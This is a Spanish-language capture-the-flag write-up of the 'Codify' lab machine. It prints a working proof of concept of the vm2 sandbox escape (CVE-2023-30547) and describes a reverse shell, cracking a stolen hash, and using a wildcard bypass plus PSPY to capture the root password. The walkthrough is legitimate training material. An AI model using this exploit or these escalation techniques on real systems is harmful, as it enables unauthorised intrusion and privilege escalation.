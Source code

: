 

![](../../../Imágenes/Codify.png)

Codify es una máquina que aloja un sitio web para revisar código Node.js en un servidor web. Podemos conseguir un punto de apoyo en el sistema objetivo mediante la explotación de una vulnerabilidad de una librería JavaScript que el sitio utiliza para la revisión de código. Una vez dentro debemos movernos lateralmente hacia otro usuario gracias al hallazgo de un hash ubicado dentro de un fichero en el sistema y realizando su desencriptado. Finalmente, debemos escalar privilegios realizando fuerza bruta sobre un script encontrado en el sistema o, también, usando la herramienta PSPY que nos permitirá capturar la contraseña del usuario root.

### **Enumeración**

#### Nmap

El escaneo de puertos nos arroja la existencia de servicios como **SSH**, **HTTP** y un servicio **HTTP** alojado en el puerto 3000.

![](../../../Imágenes/Selection_001-1.png)

![](../../../Imágenes/Selection_002-1.png)

#### HTTP 3000/TCP

El puerto 3000 nos aporta mucha curiosidad, por lo que nos dirigimos hacia él mediante el navegador. El sitio nos muestra un editor de código para testear código escrito en lenguaje Node.js:

![](../../../Imágenes/Pasted-image-20240404132135.png)

Si nos dirigimos a la sección «About us» podemos obtener más información sobre el sitio y entender mejor su funcionamiento. Asimismo podemos ver que el editor utiliza una librería de **JavaScript** llamada **vm2**.

![](../../../Imágenes/Pasted-image-20240404133457.png)

Si clicamos en el enlace, podemos comprobar que se está usando la versión **3.9.16**. Realizando una búsqueda por los motores de búsqueda podemos comprobar que existe una vulnerabilidad para esta versión registrada como **[CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)**:

![](../../../Imágenes/image%201.png)

Existe un **[proof of concept](https://github.com/patriksimek/vm2/security/advisories/GHSA-ch3r-j5x3-6q2m)** de esta vulnerabilidad que nos sugiere el uso del siguiente código, el cual nos permite la ejecución de código arbitrario en el sistema objetivo:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo pwned');
}
`

console.log(vm.run(code));
```

Si volvemos al sitio web y probamos el código podemos comprobar que se muestra por pantalla la palabra pwned, por lo tanto, la ejecución de comandos se está realizando correctamente.

![](../../../Imágenes/Pasted-image-20240404133530.png)

### **Usuario svc**

Ahora es hora de introducir un payload para obtener una reverse shell:

![](../../../Imágenes/Selection_004-1.png)

Una vez obtenido la shell en el sistema objetivo y estabilizarla, nos encontramos con que somos el usuario svc y que existe un usuario llamado joshua el cual no podemos acceder a su directorio dentro del Home.

![](../../../Imágenes/Selection_005-1.png)

### **Usuario joshua**

Después de realizar una enumeración del sistema nos encontramos que existe un archivo llamado **tickets.db** dentro de la carpeta **/var/www**. Este archivo parece contener el nombre de joshua (el cual no tenemos acceso) y lo que parece ser un hash.

![](../../../Imágenes/Selection_006-1-wpp1712234308114.png)

Así que nos dirigimos a copiar el hash y tratar de desencriptarlo en nuestro host de ataque mediante el uso de **Hashcat**:

![](../../../Imágenes/Selection_007-1-wpp1712234291287.png)

![](../../../Imágenes/Selection_008-1-wpp1712299328674.png)

Por suerte, logramos desencriptar la contraseña, cambiar de usuario hacia joshua y leer la bandera user.txt.

![](../../../Imágenes/Selection_009-1-wpp1712234194943.png)

### **Escalada de privilegios**

Rápidamente, comprobamos comandos que el usuario puede ejecutar con permisos root y nos entramos con que puede ejecutar un script que aparentemente realiza una copia de seguridad de la base de datos **MYSQL**.

![](../../../Imágenes/Selection_011-1.png)

Realizando la revisión de código de este script nos encontramos con que en primer lugar se hace una comprobación de la contraseña ubicada en el directorio de root con la contraseña que introduzcamos al ejecutar el script y, a continuación, si la contraseña introducida es válida se procede a realizar la copia de seguridad usando la contraseña root.

![](../../../Imágenes/Selection_012-1.png)

Si iniciamos el script y probamos cualquier contraseña, nos devuelve un mensaje de fallo de contraseña y se paraliza la ejecución del script. Pero, si usamos el comodín «*» la lógica del script da por buena la contraseña y sigue con su ejecución.

![](../../../Imágenes/Selection_013-1.png)

En este momento tenemos dos opciones:

1. Desarrollar un script para realizar fuerza bruta sobre la contraseña.
2. Utilizar **PSPY** para capturar la contraseña durante la ejecución del script.

Nosotros optamos por utilizar **PSPY**. Así que subimos el binario **PSPY64** en la máquina víctima y lo ejecutamos.

![](../../../Imágenes/Selection_016-1.png)

A continuación, ejecutamos el script introduciendo el comodín:

![](../../../Imágenes/Selection_017-1.png)

¡Y conseguimos la contraseña!

![](../../../Imágenes/Selection_018-1-wpp1712234137194.png)

Ahora, tratamos de usar la contraseña filtrada gracias a **PSPY** intentando cambiar hacia el usuario root, y finalmente, ¡conseguimos la bandera root.txt!

![](../../../Imágenes/Selection_019-1-wpp1712234073978.png)

![](../../../Imágenes/Selection_010-1%201.png)
